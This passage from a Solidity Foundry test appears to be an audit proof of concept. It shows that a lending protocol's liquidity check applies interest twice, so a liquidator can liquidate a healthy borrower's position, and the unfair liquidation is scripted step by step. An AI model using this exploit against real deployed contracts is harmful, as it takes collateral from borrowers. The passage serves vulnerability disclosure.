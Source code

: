 ```solidity
        console2.log("Accruing interest over time...");
        vm.roll(block.number + 800000);
        vm.warp(block.timestamp + 500 days);

        address borrowedLToken = lendStorage.underlyingTolToken(tokens[1]);
        LTokenInterface(borrowedLToken).accrueInterest();

        // Get debt calculations
        LendStorage.BorrowMarketState memory borrowState = lendStorage.getBorrowBalance(borrower, borrowedLToken);
        uint256 currentBorrowIndex = LTokenInterface(borrowedLToken).borrowIndex();
        uint256 realDebt = (borrowState.amount * currentBorrowIndex) / borrowState.borrowIndex;

        console2.log("After interest accrual:");
        console2.log("- Principal: $", borrowState.amount / 1e18);
        console2.log("- Real debt: $", realDebt / 1e18);
        console2.log("- Interest accrued: $", (realDebt - borrowState.amount) / 1e18);
        console2.log("");

        uint256 collateralFactor = lendtroller.getCollateralFactorMantissa(lTokens[0]);
        uint256 borrowingPower = (collateralAmount * collateralFactor) / 1e18;

        console2.log("Position health:");
        console2.log("- Borrowing power: $", borrowingPower / 1e18);
        console2.log("- Real debt: $", realDebt / 1e18);
        console2.log("- Position healthy: ", realDebt <= borrowingPower);
        console2.log("");

        // Show the double interest bug
        (uint256 borrowed,) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(borrower, LToken(payable(borrowedLToken)), 0, 0);
        uint256 buggyDebt = (borrowed * currentBorrowIndex) / borrowState.borrowIndex;

        console2.log("DOUBLE INTEREST BUG:");
        console2.log("- Step 1 result: $", borrowed / 1e18);
        console2.log("- Step 2 result: $", buggyDebt / 1e18);
        console2.log("- Real debt: $", realDebt / 1e18);
        console2.log("- Bug difference: $", (buggyDebt - realDebt) / 1e18);
        console2.log("");

        if (realDebt <= borrowingPower && buggyDebt > borrowingPower) {
            console2.log("CRITICAL BUG CONFIRMED:");
            console2.log("- Position SHOULD be healthy");
            console2.log("- Bug makes it appear underwater");
            console2.log("- Unfair liquidation possible");
            console2.log("");

            // Prove unfair liquidation succeeds
            vm.startPrank(liquidator);
            uint256 liquidationAmount = 100e18;

            console2.log("Attempting liquidation...");
            core.liquidateBorrow(borrower, liquidationAmount, lTokens[0], tokens[1]);
            console2.log("LIQUIDATION SUCCEEDED - HEALTHY POSITION LIQUIDATED!");
            console2.log("Borrower lost collateral unfairly!");
            vm.stopPrank();
        }

        assertGt(buggyDebt, realDebt, "Bug should inflate debt calculation");
        assertTrue(realDebt <= borrowingPower, "Position should be healthy");
        assertTrue(buggyDebt > borrowingPower, "Bug should make it appear underwater");
    }
```